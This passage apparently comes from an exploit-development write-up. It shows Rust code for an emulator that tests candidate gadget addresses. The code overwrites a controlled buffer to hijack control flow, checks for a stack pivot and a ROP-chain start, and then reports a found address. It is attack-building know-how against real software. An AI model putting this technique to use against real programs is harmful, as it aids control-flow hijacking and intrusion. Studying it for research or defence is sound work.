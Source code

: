 ```rust
        self.rcx_before = emu.rcx();

        // Fix up @rax with the candidate's address.
        emu.set_rax(candidate);

        // Fix up the buffer, where the address of the candidate would be if we were
        // executing it after |miami1|.
        let size_of_u64 = std::mem::size_of::<u64>() as u64;
        let second_qword = size_of_u64 * 2;
        emu.virt_write(Gva::from(self.rcx_before + second_qword), &candidate)?;

        // Overwrite the buffer we control with the `MARKER_PAGE_ADDR`. Skip the first 3
        // qwords, because the first and third ones are already used to hijack flow
        // and the second we skip it as it makes things easier.
        for qword_idx in 3..18 {
            let byte_idx = qword_idx * size_of_u64;
            emu.virt_write(
                Gva::from(self.rcx_before + byte_idx),
                &MARKER_PAGE_ADDR.u64(),
            )?;
        }

        Ok(())
    }

    fn post(&mut self, emu: &Emu) -> Result<bool> {
        //Let's check if we pivoted into our buffer AND that we also are able to
        // start a ROP chain.
        let wanted_landing_start = self.rcx_before + 0x18;
        let wanted_landing_end = self.rcx_before + 0x90;
        let pivoted = has_stack_pivoted_in_range(emu, wanted_landing_start..=wanted_landing_end);

        let mask = 0xffffffff_ffff0000;
        let rip = emu.rip();
        let rip_has_marker = (rip & mask) == (MARKER_PAGE_ADDR.u64() & mask);
        let is_interesting = pivoted && rip_has_marker;

        Ok(is_interesting)
    }
}
```

After running it for a while, `0x14005bd25` appeared:

<center><img src="/images/paracosme/bf2.png" /></center>
